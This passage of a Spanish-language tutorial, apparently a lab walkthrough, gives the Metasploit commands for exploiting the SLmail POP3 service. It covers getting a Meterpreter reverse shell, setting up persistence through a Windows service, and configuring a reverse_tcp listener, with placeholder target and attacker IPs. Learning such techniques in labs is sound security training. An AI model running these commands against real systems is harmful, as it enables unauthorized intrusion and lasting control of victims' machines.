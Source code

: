    Esto te mostrará información sobre el exploit si está disponible en tu base de datos de Metasploit.

2. **Configurar las Opciones del Módulo**:

   Una vez identificado el módulo, cárgalo y configura las opciones necesarias. Esto incluye configurar la opcion  `RHOSTS` (la dirección IP del objetivo). Por ejemplo:

   ```bash
   msf6 > use exploit/windows/pop3/seattlelab_pass
   msf6 exploit(windows/pop3/seattlelab_pass) > set RHOSTS ip_victima 
   ```

   Asegúrate de ajustar `ip_victima` al objetivo específico.

3. **Ejecutar el Exploit**:

   Una vez configurado el módulo, ejecuta el exploit con el comando `exploit`:

   ```bash
   msf6 exploit(windows/pop3/seattlelab_pass) > exploit
   ```

   Esto intentará aprovechar la vulnerabilidad en el servicio POP3 en el objetivo para establecer una reverse shell por medio de una sesion de meterpreter .

4. **Generar persistencia**

   Una vez establecida nuestra sesión de Meterpreter, el primer paso para generar persistencia es colocar la sesión en segundo plano.

   ```bash
   (Meterpreter 1)(C:\Program Files\SLmail\System) > background
   ```

   Luego, buscamos el exploit necesario para generar la persistencia.

   ```bash
   msf6 exploit(windows/pop3/seattlelab_pass) > search persistence platform:"windows"
   ```

   Una vez identificado el exploit, lo cargamos y configuramos las opciones necesarias. Por ejemplo, configuramos la opción `SESSION` en uno, ya que solo tenemos una sesión activa.

   ```bash
   msf6 exploit(windows/pop3/seattlelab_pass) > use exploit/windows/local/persistence_service
   msf6 exploit(windows/local/persistence_service) > set SESSION 1
   ```

   Con todo configurado, ejecutamos el exploit con el comando `run`.

   ```bash
   msf6 exploit(windows/local/persistence_service) > run
   ```

   Esto creará un servicio en la máquina y obtendremos acceso al sistema Windows. Si deseamos establecer una sesión de escucha, primero cargamos el exploit del listener y configuramos las opciones necesarias, como el payload, que en este caso establecerá una conexión de retorno hacia el atacante a través de TCP. Luego, configuramos la opción `LHOST` para indicar la dirección IP de nuestra máquina atacante.

   ```bash
   msf6 > use exploit/multi/handler
   msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   msf6 exploit(multi/handler) > set LHOST ip
   ```
